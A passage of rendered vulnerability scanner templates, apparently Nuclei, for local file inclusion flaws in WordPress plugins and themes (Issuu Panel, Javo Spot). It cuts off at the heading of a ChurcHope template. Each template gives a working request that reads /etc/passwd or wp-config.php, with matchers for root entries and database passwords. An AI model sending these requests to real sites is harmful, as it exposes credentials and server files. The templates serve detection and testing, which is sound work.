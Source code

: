 - {{BaseURL}}/wp-content/plugins/issuu-panel/menu/documento/requests/ajax-docs.php?abspath=%2Fetc%2Fpasswd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# WordPress Javo Spot Premium Theme - Local File Inclusion

## Description

- WordPress Javo Spot Premium Theme is vulnerable to local file inclusion that allows remote unauthenticated attackers access to locally stored file and return their content.
- severity - high
- tags - wordpress,wp-theme,lfi,wp,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?jvfrm_spot_get_json&fn=../../wp-config.php&callback=jQuery

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress ChurcHope Theme \<= 2.1 - Local File Inclusion

